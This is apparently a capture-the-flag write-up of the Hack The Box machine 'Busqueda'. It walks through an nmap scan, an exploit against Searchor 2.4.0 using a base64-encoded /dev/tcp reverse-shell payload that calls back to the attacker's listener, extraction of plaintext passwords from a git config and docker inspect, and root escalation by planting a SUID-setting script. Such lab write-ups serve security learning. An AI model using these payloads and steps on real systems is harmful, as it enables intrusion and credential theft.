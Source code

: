 ## Basic NMAP Scan:
```bash
┌──(parallels㉿V35HR4J)-[~/tjnull/Busqueda]
└─$ nmap 10.129.42.141 -T4                  
Starting Nmap 7.92 ( https://nmap.org ) at 2023-12-15 21:10 +0545
Nmap scan report for 10.129.42.141
Host is up (0.31s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 29.42 seconds

```

## Let's start Enemuration with port 80:

```bash
┌──(parallels㉿V35HR4J)-[~/tjnull/Busqueda]
└─$ curl 10.129.42.141     
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>302 Found</title>
</head><body>
<h1>Found</h1>
<p>The document has moved <a href="http://searcher.htb/">here</a>.</p>
<hr>
<address>Apache/2.4.52 (Ubuntu) Server at 10.129.42.141 Port 80</address>
</body></html>

```
Need to add this to /etc/hosts file.

After browsing the site, we can find on the footer:
Powered by Flask and [Searchor 2.4.0](https://github.com/ArjunSharda/Searchor) which points to the github repo, on security advisory we can find that there is a [RCE](https://github.com/ArjunSharda/Searchor/security/advisories/GHSA-66m2-493m-crh2) vulnerability in the version 2.4.0.

## Exploitation:

We can use [following](https://github.com/V35HR4J/Searchor-2.4.1-RCE) exploit:

```bash
┌──(parallels㉿V35HR4J)-[~/tjnull/Busqueda/Searchor-2.4.1-RCE]
└─$ python3 exploit.py http://searcher.htb/search "echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjMvMTIzNCAwPiYx|base64 -d|bash"
```

```bash
┌──(parallels㉿V35HR4J)-[~]
└─$ rev 1234
Tun0 IP: 10.10.14.23
python3 -c 'import pty;pty.spawn("/bin/bash")'
listening on [any] 1234 ...
connect to [10.10.14.23] from searcher.htb [10.129.42.141] 60406
sh: 0: can't access tty; job control turned off
$ whoami
svc
```

## Privilege Escalation:

We can find git config file in /var/www/app/.git/config

```bash
svc@busqueda:/var/www/app/.git$ cat config 
cat config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[remote "origin"]
        url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
        fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
        remote = origin
        merge = refs/heads/main

```

The password for svc user is reused, also we found new subdomain as gitea.searcher.htb, let's quickly add it to our /etc/hosts and further enemurate on ssh if we can find something.

```bash
svc@busqueda:~$ sudo -l
[sudo] password for svc: 
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *

```
Let's try to undertsand what this script does:

```bash
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py test
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup

svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
CONTAINER ID   IMAGE                COMMAND                  CREATED         STATUS          PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   11 months ago   Up 39 minutes   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   11 months ago   Up 39 minutes   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db

svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect
Usage: /opt/scripts/system-checkup.py docker-inspect <format> <container_name>
```

Okay so we know that, we can run docker-inspect command, it is possible to leak the config with the command, found through [this](https://docs.docker.com/engine/reference/commandline/inspect/) article about docker.

```bash
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' 960873171e2e|jq .
{
  "Hostname": "960873171e2e",
  "Domainname": "",
  "User": "",
  "AttachStdin": false,
  "AttachStdout": false,
  "AttachStderr": false,
  "ExposedPorts": {
    "22/tcp": {},
    "3000/tcp": {}
  },
  "Tty": false,
  "OpenStdin": false,
  "StdinOnce": false,
  "Env": [
    "USER_UID=115",
    "USER_GID=121",
    "GITEA__database__DB_TYPE=mysql",
    "GITEA__database__HOST=db:3306",
    "GITEA__database__NAME=gitea",
    "GITEA__database__USER=gitea",
    "GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh",
    "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
    "USER=git",
    "GITEA_CUSTOM=/data/gitea"
  ],
  "Cmd": [
    "/bin/s6-svscan",
    "/etc/s6"
  ],
  "Image": "gitea/gitea:latest",
  "Volumes": {
    "/data": {},
    "/etc/localtime": {},
    "/etc/timezone": {}
  },
  "WorkingDir": "",
  "Entrypoint": [
    "/usr/bin/entrypoint"
  ],
  "OnBuild": null,
  "Labels": {
    "com.docker.compose.config-hash": "e9e6ff8e594f3a8c77b688e35f3fe9163fe99c66597b19bdd03f9256d630f515",
    "com.docker.compose.container-number": "1",
    "com.docker.compose.oneoff": "False",
    "com.docker.compose.project": "docker",
    "com.docker.compose.project.config_files": "docker-compose.yml",
    "com.docker.compose.project.working_dir": "/root/scripts/docker",
    "com.docker.compose.service": "server",
    "com.docker.compose.version": "1.29.2",
    "maintainer": "maintainers@gitea.io",
    "org.opencontainers.image.created": "2022-11-24T13:22:00Z",
    "org.opencontainers.image.revision": "9bccc60cf51f3b4070f5506b042a3d9a1442c73d",
    "org.opencontainers.image.source": "https://github.com/go-gitea/gitea.git",
    "org.opencontainers.image.url": "https://github.com/go-gitea/gitea"
  }
}
```
We can find the password is reused, and now we have access to gitea server as administrator through this password.

Now, reviewing the code for scripts, we can find that we can actually run any command as root through full-checkup flag, below is the code snippet:

```python
    elif action == 'full-checkup':
        try:
            arg_list = ['./full-checkup.sh']
            print(run_command(arg_list))
            print('[+] Done!')
        except:
            print('Something went wrong')
            exit(1)
```

Let's create a file named full-checkup.sh in /tmp directory and add the following code:

```bash
#!/bin/bash
chmod u+s /bin/bash
```

Now we are root:

```bash
svc@busqueda:/tmp$ chmod +x full-checkup.sh 
svc@busqueda:/tmp$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup

[+] Done!
svc@busqueda:/tmp$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
svc@busqueda:/tmp$ /bin/bash -p
bash-5.1# cat /root/root.txt
a1e86be8967140570dddb993eec3b801
```

# Takeaway:
- Developers are lazy, they reuse the passwords.
- Always check for the version of the software, and check for any exploits.